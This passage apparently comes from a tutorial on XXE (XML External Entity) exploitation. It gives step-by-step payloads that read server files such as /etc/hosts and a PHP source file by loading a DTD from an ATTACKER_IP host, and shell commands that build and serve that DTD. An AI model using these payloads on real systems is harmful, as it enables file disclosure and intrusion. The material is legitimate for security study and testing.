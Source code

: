 **Step 2: XXE Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://ATTACKER_IP:8000/xxe.dtd">
  %xxe;
]>
<root>
    <name>Test User</name>
    <email>&joined;</email>
    <message>Test message</message>
</root>
```

**Benefits:**
- Works with any file type
- No base64 encoding required
- Preserves original formatting
- Bypasses character restrictions

### Error-Based XXE

#### Scenario: Blind XXE Exploitation
**Problem:** Application doesn't display XML entity values
**Solution:** Force errors to leak file content

#### Error-Based Technique

**Step 1: Create Error-Inducing DTD**
```bash
# Create xxe.dtd
cat > xxe.dtd << EOF
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
EOF

# Start HTTP server
python3 -m http.server 8000
```

**Step 2: Trigger Error with File Content**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://ATTACKER_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
<root>
    <name>Test User</name>
    <email>test@example.com</email>
    <message>Test message</message>
</root>
```
